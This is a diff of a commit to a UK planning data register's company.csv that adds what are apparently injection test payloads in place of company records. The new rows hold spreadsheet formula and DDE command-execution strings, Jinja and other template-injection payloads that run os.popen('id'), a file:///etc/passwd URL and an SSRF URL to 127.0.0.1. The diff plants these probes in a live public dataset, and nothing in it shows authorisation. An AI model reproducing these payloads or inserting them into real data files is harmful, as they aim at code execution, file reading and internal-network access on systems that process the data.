

Before and after one commit to digital-land/dluhc-datasets, a CSV file: data/registers/company.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data/registers/company.csv
+++ b/data/registers/company.csv
+row 7: 2777001 | =1+1 | company | FORMULA5337 | formula arith |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 8: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 9: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 10: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 11: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 12: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 13: 2777013 | trav name | company | TRAV5337 | filename trav |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 14: 2777002 | =cmd|'/c calc'!A0 | company | DDE5337 | dde cmd |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 15: 2777003 | =HYPERLINK("http://127.0.0.1/artx","x") | company | HYPER5337 | hyperlink |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 16: 2777004 | {{7*7}} | company | SSTI5337A | jinja math |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 17: 2777005 | {{config}} | company | SSTI5337B | jinja config |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 18: 2777006 | {{lipsum.__globals__.os.popen('id').read()}} | company | SSTI5337C | jinja rce |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 19: 2777007 | ${7*7} | company | SSTI5337D | freemarker |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 20: 2777008 | <%= 7*7 %> | company | SSTI5337E | erb |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 21: 2777009 | {% for x in ().__class__.__base__.__subclasses__() %}{% endfor %} | company | SSTI5337F | jinja loop |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
+row 22: 2777010 | ARTEX i5337 website file | company | FILE5337 | file url |  | file:///etc/passwd |  |  | 2026-09-20 | 2026-09-20
+row 23: 2777011 | ARTEX i5337 website 127 | company | SSRFI5337 | ssrf url |  | http://127.0.0.1/ |  |  | 2026-09-20 | 2026-09-20
+row 24: 2777012 | {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} | company | SSTI5337G | jinja req |  | https://www.planning.data.gov.uk/ |  |  | 2026-09-20 | 2026-09-20
```
Also changed, not shown: data/registers/permitted-development-right.csv.
